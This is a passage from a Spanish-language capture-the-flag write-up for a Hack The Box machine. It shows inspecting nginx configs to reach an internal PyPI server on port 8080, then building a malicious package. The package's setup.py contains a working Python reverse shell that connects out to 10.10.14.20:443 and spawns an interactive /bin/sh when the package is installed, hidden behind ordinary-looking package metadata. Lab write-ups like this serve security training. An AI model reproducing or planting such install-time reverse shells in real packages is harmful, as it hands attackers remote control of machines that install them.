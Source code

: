 Intentando conectarnos a la web por el subdominio `pypi.sneakycorp.htb`, vemos que hay una redirection automatica al domino normal.
Sabiendo que estamos en frente de un **NGINX**, analizamos como el reverse proxy esta configurado.

```bash
cd /etc/nginx
ls
cd sites-enabled
cat sneakycorp.htb
cat pypi.sneakycorp.htb
```

Hay ya vemos que para ir al subdominio `pypi.sneakycorp.htb` tenemos que pasar por el puerto **8080**, y efectivamente si browseamos
la web con `pypi.sneakycorp.htb:8080` ya podemos ver la web del **pypi server**

### Crear un packete malicioso para pypi {-}

Como el servicio pypi es un server que tiene conectividad con el exterior, podemos seguir lo siguientes pasos en la maquina de atacante.

```bash
mkdir pypi
cd !$
mkdir pwned
cd !$
touch __init__.py
touch setup.py
```

El fichero `__init__.py` se queda vacio y el contenido del `setup.py` seria el siguiente.

```python
import setuptools
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.20",443))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

setuptools.setup(
    name="example-pkg-YOUR-USERNAME-HERE",
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",
)
```
